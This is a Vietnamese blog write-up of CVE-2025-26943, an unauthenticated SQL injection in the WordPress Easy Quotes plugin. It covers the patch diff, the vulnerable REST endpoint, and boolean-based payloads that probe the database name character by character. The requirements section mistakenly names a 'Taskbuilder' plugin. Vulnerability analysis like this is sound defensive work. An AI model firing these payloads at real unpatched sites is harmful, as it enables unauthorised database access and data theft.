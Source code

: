# CVE-2025-26943 Analysis & POC


<!--more-->

Lỗ hổng xảy ra trên plugin **Easy Quotes** của WordPress trước phiên bản **1.2.3**. Điều này có thể cho phép kẻ tấn công trực tiếp tương tác với cơ sở dữ liệu của bạn, bao gồm không giới hạn ở việc đánh cắp thông tin.

* **CVE ID**: [CVE-2025-26943](https://www.cve.org/CVERecord?id=CVE-2025-26943)
* **Product**: [WordPress Easy Quotes Plugin](https://wordpress.org/plugins/easy-quotes/#description)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 1.2.2
* **CVSS severity**: High (9.3)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Taskbuilder Plugin**:  v1.2.2(vul) và v1.2.3(fix)
* **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

## Analysis

Ứng dụng đã đưa trực tiếp dữ liệu từ người dùng vào câu query SQL mà **không sử dụng các biện pháp bảo vệ** khiến lỗ hổng SQL Injection xảy ra.

### Patch Diff

Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **includes/quotes-data.php**

```php
private static function get_family_data($family) {
    /** @var wpdb $wpdb */
    global $wpdb;
    $tablename = $wpdb->prefix . 'easy-quotes-families';
    return $wpdb->get_row("SELECT * FROM `".$tablename."` WHERE `family`='".$family."';");
}
```

Bản vá sử dụng `$wpdb->prepare()` thay vì truyền trực tiếp dữ liệu từ người dùng vào câu query.

```php
private static function get_family_data($family) {
    /** @var wpdb $wpdb */
    global $wpdb;
    $tablename = $wpdb->prefix . 'easy-quotes-families';
    $sql = $wpdb->prepare(
        "SELECT * FROM %i WHERE `family` = %s",
        $tablename, $family
    );
    return $wpdb->get_row($sql);
}
```

{{< figure src="patch_dif.png" caption="Patch diff" alt="Patch diff" >}}

Có nhiều hàm cũng được vá bằng cách trên, như: `get_font_variant($family_id, $variant_id)`, `get_font_variants($family)`, `get_fonts($category = -1)`

Tuy `get_fonts_categories()` đã được vá nhưng nó không chứa dữ liệu từ người dùng, nên không cần quan tâm

```php
public static function get_fonts_categories() {
    /** @var wpdb $wpdb */
    global $wpdb;
    $tablename = $wpdb->prefix . 'easy-quotes-categories';
    $sql = $wpdb->prepare(
        "SELECT `category_id`, `category` FROM %i",
        $tablename
    );
    return $wpdb->get_results($sql);
}
```

### How it work?

Ta khai thác lỗi SQL Injection trong hàm `get_family_data($family)`, các hàm còn lại khai thác tương tự.

`get_family_data()` là hàm public trong class `Quotes_Data`

```php
class Quotes_Data
{
	function __construct()
	{
		add_filter('posts_where', array($this, 'posts_where'), 10, 2);
	}

    // other function

	public static function get_font_variants($family) {
		$familyData = self::get_family_data($family);
        // other logic
	}

	public static function get_family($family, $variant_id) {
		$family_data = (array)self::get_family_data($family);
        // other logic
	}

	private static function get_family_data($family) {
		/** @var wpdb $wpdb */
		global $wpdb;
		$tablename = $wpdb->prefix . 'easy-quotes-families';
		return $wpdb->get_row("SELECT * FROM `".$tablename."` WHERE `family`='".$family."';");
	}
}
```

`get_family_data()` được gọi trong 2 hàm `get_family()` và `get_font_variants()` của class `Quotes_Data`, để biết chúng sử dụng ở đâu, ta tìm kiến với từ khóa `get_family` hoặc `get_font_variants`

{{< figure src="search_func.png" caption="Search function" alt="Search function" >}}

Hàm `get_font_variants()` được gọi trong hàm `rest_route_callback_font_variants()` của class `Quotes_Rest_Route`

```php
class Quotes_Rest_Route
{
    function __construct()
    {
        add_action('rest_api_init', array($this, 'rest_api_init'));
    }

    /**
     * Register my REST route
     *
     * @return void
     */
    function rest_api_init($wp_rest_server)
    {
        $args = [
        'method'                => WP_REST_Server::READABLE,
        'callback'              => [$this, 'rest_route_callback_quote'],
        'permission_callback'   => '__return_true'
        ];
        register_rest_route('layart/v1', '/quote', $args);

        // other logic

        $args['callback'] = [$this, 'rest_route_callback_font_variants'];
        register_rest_route('layart/v1', '/font-variants', $args);
    }

    // other function

    function rest_route_callback_font_variants(WP_REST_Request $request)
    {
        $family = $request->get_param('family');
        $family = isset($family) ? $family : "Shadows Into Light";

        $response = Quotes_Data::get_font_variants($family);
        return rest_ensure_response($response);
    }
}
```

Hàm khởi tạo của class `Quotes_Rest_Route` sử dụng `add_action(hook_name, callback)` với `hook_name` là `rest_api_init` để đăng ký các endpoint tùy chỉnh với REST API System của WordPress

Callback `rest_api_init` sử dụng `register_rest_route` nhiều lần để tạo các endpoint dưới namespace `layart/v1`

`rest_route_callback_font_variants` là callback của endpoint `/wp-json/layart/v1/font-variants?family=family_name`

`$family` mặc định là `Shadows Into Light` nếu không được truyền trong param.

## Exploit

### Detect SQLi

Ta thử kỹ thuật **Boolean-based SQL Injection** để kiểm tra xem tham số family có dễ bị chèn lệnh SQL hay không.

**True request**:
{{< figure src="true_req.png" caption="True request" alt="True request" >}}

Khi đó, câu query thực thi sẽ trở thành:

```sql
SELECT * FROM wp_easy-quotes-families WHERE family='Roboto'+AND+'1'='1'"
```

Điều kiện `AND '1'='1'` luôn đúng => query hợp lệ, trả về dữ liệu bình thường.

**False request**:
{{< figure src="false_req.png" caption="False request" alt="False request" >}}

Khi đó, câu query thực thi sẽ trở thành:

```sql
SELECT * FROM wp_easy-quotes-families WHERE family='Roboto'+AND+'1'='2'"
```

Điều kiện `AND '1'='2'` luôn sai => query không khớp => trả về `[]`.

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì toàn bộ data đều dump được.

> Database name được tôi đặt tên là **wordpress** nên kí tự đầu tiên là `w`

{{< figure src="first_letter.png" caption="First letter" alt="First letter" >}}

Response trả về dữ liệu bình thường => kí tự đầu tiên là `w`

Khi đó, câu query thực thi sẽ trở thành:

```sql
SELECT * FROM wp_easy-quotes-families WHERE family='Roboto'+AND+SUBSTRING(DATABASE(),1,1)='w'"
```

## Conclusion

Lỗ hổng **CVE-2025-26943** trong plugin WordPress **Easy Quotes** trước phiên bản **1.2.3** xuất phát từ việc không sử dụng cơ chế chuẩn bị truy vấn `($wpdb->prepare)` mà truyền trực tiếp dữ liệu từ người dùng vào câu lệnh SQL dẫn đến lỗ hổng SQL Injection.

Bản vá chính thức đã thay thế việc nối chuỗi bằng cách dùng `$wpdb->prepare`, giúp đảm bảo dữ liệu đầu vào được kiểm soát và an toàn hơn.

**Key takeaways**:

* Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
* Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Easy Quotes Plugin <= 1.2.2 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/easy-quotes/vulnerability/wordpress-easy-quotes-plugin-1-2-2-sql-injection-vulnerability)


---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-09-23-cve-2025-26943/  

